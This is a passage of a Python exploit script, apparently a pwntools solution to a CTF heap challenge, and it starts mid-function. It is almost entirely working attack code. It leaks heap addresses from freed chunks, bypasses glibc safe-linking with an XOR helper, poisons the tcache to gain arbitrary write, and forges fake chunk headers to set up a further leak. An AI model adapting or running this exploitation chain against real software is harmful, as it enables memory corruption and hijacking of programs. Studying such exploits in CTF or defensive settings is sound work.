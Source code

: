 ```python
	r.send(content)

def edit(idx,content):
	r.recvuntil('>> ')
	r.sendline('2')
	r.recvuntil('Index: ')
	r.sendline(str(idx))
	r.recvuntil('Content: ')
	r.send(content)

def delete(idx):
	r.recvuntil('>> ')
	r.sendline('3')
	r.recvuntil('Index: ')
	r.sendline(str(idx))

def show(idx):
	r.recvuntil('>> ')
	r.sendline('4')
	r.recvuntil('Index: ')
	r.sendline(str(idx))

def xor_ptr(ptr1,ptr2):
	result=((ptr1>>12)^(ptr2))
	return result

new(0x18,'\n')
new(0x18,'\n')

delete(0)
delete(1)

show(0)
fd1=u64(r.recv(8))
show(1)
fd2=u64(r.recv(8))

heap=(fd1^fd2)-0x2a0
success("heap: "+hex(heap))

new(0x18,'\n')
new(0x18,'\n')

delete(1)
delete(0)

edit(3,p64(xor_ptr(heap+0x2a0,heap+0x90))+'\n')

new(0x18,'\n')
new(0x18,p64(0))

def write(addr,content):
	edit(3,p64(0)*0x2+'\n')
	delete(0)
	edit(5,p64(addr)+'\n')
	new(0x18,content)

write(heap+0x2b0,p64(0)+p64(0x421))
write(heap+0x6d0,p64(0)+p64(0x21))
write(heap+0x6f0,p64(0)+p64(0x21))

delete(1)
show(1)
```